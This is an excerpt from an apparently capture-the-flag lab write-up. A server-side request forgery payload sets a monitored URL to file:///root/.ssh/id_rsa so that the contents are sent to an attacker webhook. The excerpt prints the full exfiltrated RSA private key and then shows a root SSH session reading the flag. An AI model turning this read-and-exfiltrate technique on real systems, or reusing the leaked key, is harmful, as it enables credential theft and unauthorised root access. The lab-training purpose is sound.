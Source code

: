 ```bash
{"webhookUrl":"http:\/\/10.10.14.10\/","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```
## SSH as root
Connect to the ssh using private key
```bash
root@health:~# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@health:~# cat root.txt 
fdd3******************c307
root@health:~# 
```
